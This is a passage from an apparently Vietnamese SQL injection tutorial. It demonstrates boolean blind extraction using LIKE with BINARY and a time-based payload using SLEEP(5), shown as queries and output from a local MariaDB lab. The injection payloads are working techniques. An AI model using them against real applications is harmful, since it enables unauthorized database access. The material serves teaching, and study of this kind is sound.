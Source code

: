     ```mysql
    MariaDB [xssuser]> select * from menu where id = 1 AND NAME_MENU LIKE 'n%';
    Empty set (0.00 sec)
    
    MariaDB [xssuser]> select * from menu where id = 1 AND NAME_MENU LIKE 'm%';
    +----+-----------+
    | ID | NAME_MENU |
    +----+-----------+
    |  1 | Menu 2    |
    +----+-----------+
    1 row in set (0.00 sec)
    
    MariaDB [xssuser]> select * from menu where id = 1 AND BINARY NAME_MENU LIKE 'm%';
    Empty set (0.01 sec)
    
    MariaDB [xssuser]> select * from menu where id = 1 AND BINARY NAME_MENU LIKE 'M%';
    +----+-----------+
    | ID | NAME_MENU |
    +----+-----------+
    |  1 | Menu 2    |
    +----+-----------+
    1 row in set (0.00 sec)
    ```

  - Sử dụng *LIKE* tuy không phần biệt được chữ hoa và thường nhưng nếu kết hợp với *BINARY* thì sẽ phân biệt được

---

### 8. Mysql Time Based

- *Time Based* và *Blind Based* thật sự không khác nhau là mấy, tuy nhiên đối với *Blind Based* thì vẫn có 1 kết quả đặc thù nào đó trả về, còn *Time  Based* không có bất cứ kết quả nào được trả về, tuy nhiên câu *query* ta vẫn phải hoạt động được

- Sử dụng *SLEEP()* là cách kinh điển nhất của *Time Based* 

  - Payload: 

    ```mysql
    select * from menu where id = 1 AND BINARY NAME_MENU LIKE 'M%' AND SLEEP(5)
    ```

    ```mysql
    MariaDB [xssuser]> select * from menu where id = 1 AND BINARY NAME_MENU LIKE 'M%' AND SLEEP(5);
    Empty set (5.00 sec)
    ```

  - Nếu bạn chạy *query* này thì sẽ thấy chúng bị ngừng 5s trước khi trả kết quả

- Thật sự thì chỉ cần đem *Blind Based* kết hợp thêm *SLEEP* là thành *Time Based*, đa số là vậy

---
